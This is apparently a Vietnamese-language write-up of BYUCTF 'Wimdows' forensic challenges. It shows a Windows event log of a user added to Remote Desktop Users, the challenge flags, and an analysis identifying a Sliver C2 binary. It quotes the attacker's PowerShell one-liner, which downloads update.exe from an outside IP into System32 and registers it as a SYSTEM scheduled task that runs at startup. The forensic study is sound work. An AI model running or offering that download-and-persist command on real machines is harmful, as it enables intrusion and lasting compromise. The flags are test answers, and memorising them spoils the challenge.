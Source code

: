 ```
A member was added to a security-enabled local group.

Subject:
	Security ID:		SYSTEM
	Account Name:		VAGRANT-2008R2$
	Account Domain:		WORKGROUP
	Logon ID:		0x3e7

Member:
	Security ID:		VAGRANT-2008R2\phasma
	Account Name:		-

Group:
	Security ID:		BUILTIN\Remote Desktop Users
	Group Name:		Remote Desktop Users
	Group Domain:		Builtin

Additional Information:
	Privileges:		-
```

## Flag

`byuctf{Remote Desktop Users}`

# Wimdows 4
## Mô tả
Using their access, the attacker also deployed a C2 binary on the machine - what C2 framework was it, and what IP address was the C2 attempting to connect to?

Format your answer like so: byuctf{<c2 framework>_<ip address>}. E.g. byuctf{evilosx_10.1.1.1}

## Phân tích
Tiếp tục tìm trong Sysmon log, vào 7:10:15 PM chạy lệnh sau 

```powershell
$BINARY='C:\Windows\System32\update.exe' ; $ProgressPreference = 'SilentlyContinue' ; Invoke-WebRequest -Uri "http://192.168.1.107:8000/update.exe" -OutFile $BINARY ; schtasks /create /tn "updates" /tr $BINARY /ru 'SYSTEM' /sc onstart /rl highest ; schtasks /run /tn "updates"
```

Lệnh này tải một file update.exe từ http://192.168.1.107:8000/, tắt hiển thị tiến trình tải file (để chạy lặng lẽ, không báo lỗi hay thông báo gì) rồi lưu vào thư mục C:\Windows\System32\, sau đó tạo một task trên Windows Task Scheduler tên là `updates` để chạy file đó với quyền cao nhất mỗi khi máy tính khởi động, rồi chạy ngay lập tức

Vậy là ta biết được file đó đã được tải về trên máy, vào `C:\Windows\System32\` rồi xuất update.exe ra, đưa lên virus total thì biết được C2 framework mà nó sử dụng là `sliver`

Để tìm ra C2 đang muốn kết nối đến địa chỉ nào có thể bật capture trên wireshark rồi chạy update.exe trong máy ảo, vào file pcap sau đó tìm các địa chỉ ip, port khác thường mà ip của máy mình đang cố kết nối đến
